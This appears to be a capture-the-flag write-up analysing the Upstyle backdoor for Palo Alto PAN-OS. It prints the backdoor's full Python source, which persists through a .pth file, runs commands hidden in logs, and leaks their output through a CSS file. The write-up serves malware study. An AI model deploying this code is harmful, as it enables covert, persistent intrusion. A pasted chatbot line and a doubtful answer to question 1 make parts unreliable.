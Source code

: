 # Upstyle Backdoor

## Challenge Description 

<img width="1184" height="339" alt="image" src="https://github.com/user-attachments/assets/5363eb79-99ec-42dc-b639-775e1dcb9e61" />


## Solution and Analysis 

First extract the `.py` file from the password protected archive. Open it in a text editor like notepad++
you will get the following code

```python
import os,base64,time
systempth = "/usr/lib/python3.6/site-packages/system.pth"
with open(systempth,'wb') as f:
    f.write(b'''import base64;exec(base64.b64decode(b"
def check():
    import os,subprocess,time,sys
    def start_process():
        import base64
        functioncode = b"def __main():
    import threading,time,os,re,base64
    def restore(css_path,content,atime,mtime):
        import os,time
        time.sleep(15)
        with open(css_path,'w') as f:
            f.write(content)
        os.utime(css_path,(atime,mtime))    
    def __is_whole_hour():
        from datetime import datetime
        current_time = datetime.now().time()
        return current_time.minute != 0 and current_time.second == 0
    css_path = '/var/appweb/sslvpndocs/global-protect/portal/css/bootstrap.min.css'
    content = open(css_path).read()
    atime=os.path.getatime(css_path)
    mtime=os.path.getmtime(css_path)

    while True:
        try:
            SHELL_PATTERN = 'img\[([a-zA-Z0-9+/=]+)\]'
            lines = []
            WRITE_FLAG = False
            for line in open("/var/log/pan/sslvpn_ngx_error.log",errors="ignore").readlines():
                rst = re.search(SHELL_PATTERN,line)
                if rst:
                    WRITE_FLAG = True
                    cmd = base64.b64decode(rst.group(1)).decode()
                    try:
                        output = os.popen(cmd).read()
                        with open(css_path,"a") as f:
                            f.write("/*"+output+"*/")
                    except Exception as e:
                        pass
                    continue
                lines.append(line)
            if WRITE_FLAG:
                atime=os.path.getatime("/var/log/pan/sslvpn_ngx_error.log")
                mtime=os.path.getmtime("/var/log/pan/sslvpn_ngx_error.log")

                with open("/var/log/pan/sslvpn_ngx_error.log","w") as f:
                    f.writelines(lines)
                os.utime("/var/log/pan/sslvpn_ngx_error.log",(atime,mtime))
                import threading
                threading.Thread(target=restore,args=(css_path,content,atime,mtime)).start()
        except:
            pass
        time.sleep(2)
import threading,time
threading.Thread(target=__main).start()

"
        exec(base64.b64decode(functioncode))        

    if b"/usr/local/bin/monitor mp" in open("/proc/self/cmdline","rb").read().replace(b"\x00",b" ") :
        try:
            start_process()
        except KeyboardInterrupt as e:
            print(e)
        except Exception as e:
            print(e)
        return True
    else:
        return False 


def protect():
    import os,signal
    systempth = "/usr/lib/python3.6/site-packages/system.pth"
    content = open(systempth).read()
    # os.unlink(__file__)
    def stop(sig,frame):
        if not os.path.exists(systempth):
            with open(systempth,"w") as f:
                f.write(content)

    signal.signal(signal.SIGTERM,stop)


protect()
check()

=="))''')
atime=os.path.getatime(os.__file__)
mtime=os.path.getmtime(os.__file__)
os.utime(systempth,(atime,mtime))
os.unlink(__file__)
import glob
os.unlink(glob.glob("/opt/pancfg/mgmt/licenses/PA_VM`*")[0])
```
Of course. Here is the updated analysis based on your correction.

### General Explanation of the Script's Purpose

This script is a sophisticated backdoor designed to establish persistent, stealthy access to a Palo Alto Networks (PAN-OS) device. Its primary goal is to create a hidden command and control (C2) channel.

Here is the high-level attack flow:

1.  **Installation & Persistence:** The script first creates a file at `/usr/lib/python3.6/site-packages/system.pth`. In Python, `.pth` files are automatically processed when the interpreter starts, allowing the code within them to be executed. This is the core persistence mechanism.
2.  **Evasion & Anti-Forensics:** It uses "timestomping" by setting the modification and access times of the malicious `.pth` file to match a legitimate system file (`os.py`), making it harder to spot during forensic analysis. It also deletes its own source file to cover its tracks.
3.  **Targeted Execution:** The `check()` function is called. This function first verifies that it is running within a specific, legitimate Palo Alto Networks process (`/usr/local/bin/monitor mp`). This is a targeting mechanism to ensure the backdoor only activates in the intended environment.
4.  **Covert Command Channel:** If the process check is successful, `check()` triggers the `start_process()` function. This function decodes and executes the main payload, which starts the `__main()` function in a new thread. This `__main()` function continuously monitors the Nginx SSLVPN error log (`/var/log/pan/sslvpn_ngx_error.log`) for specially crafted commands. Attackers send commands hidden within a specific pattern (`img[...]`) designed to be written to this log file.
5.  **Execution & Exfiltration:** When the script finds the pattern, it decodes the Base64 command and executes it. The output of the command is appended as a comment (`/*output*/`) to a publicly accessible CSS file (`bootstrap.min.css`). This allows the attacker to retrieve command results by simply browsing to that file.
6.  **Cleanup & Self-Preservation:** After execution, the script cleans the command from the log file. It also calls the `restore()` function, which waits 15 seconds before reverting the CSS file to its original state, erasing the output. A separate `protect()` function ensures that if an admin tries to terminate the script's process, it will rewrite its persistence file (`system.pth`) before shutting down.

---

### Challenge Questions 

**1. What function is responsible for monitoring a log file for embedded commands and executing them, while also restoring the file to its original state?**

The `check()` function is responsible for initiating the entire monitoring and execution process. It acts as a gatekeeper, first verifying it's running inside a specific PAN-OS process. If the check passes, it calls `start_process()`, which decodes and executes the main payload. This payload contains the `__main()` function (which performs the actual log monitoring loop) and the `restore()` helper function (which cleans up the CSS file). Therefore, `check()` is the top-level function that orchestrates this entire chain of events.

**2. What is the system path that is used by the threat actor?**

The system path used for persistence is: `/usr/lib/python3.6/site-packages/system.pth`. This path is critical because files with a `.pth` extension in Python's `site-packages` directory are automatically executed when the Python interpreter starts.

**3. What is the CSS path used by the script?**

The CSS path used for exfiltrating command output is: `/var/appweb/sslvpndocs/global-protect/portal/css/bootstrap.min.css`.

**4. Where does the script attempt to remove certain license files from?**

The script attempts to remove license files from the `/opt/pancfg/mgmt/licenses/` directory, specifically targeting files that match the pattern `PA_VM*` using the line `os.unlink(glob.glob("/opt/pancfg/mgmt/licenses/PA_VM*")[0])`.

**5. What specific signal does the protection function respond to?**

The `protect()` function responds to the `SIGTERM` signal. This is a standard signal used to request a process's termination, which the script intercepts to perform a self-preservation action.

**6. What function is responsible for protecting the script itself?**

The `protect()` function is responsible for the script's self-preservation. It sets up a signal handler that ensures if the process receives a `SIGTERM` signal, it will rewrite the persistence file (`system.pth`) before terminating.

**7. What type of pattern does the script search for within the log file?**

The script searches for a regular expression pattern defined as `SHELL_PATTERN = 'img\[([a-zA-Z0-9+/=]+)\]'`. This pattern looks for the literal string `img[` followed by a Base64-encoded command, and ending with a literal `]`.

**8. Which specific log file does the script read from?**

The script reads commands from the PAN-OS SSLVPN Nginx error log file located at: `/var/log/pan/sslvpn_ngx_error.log`.
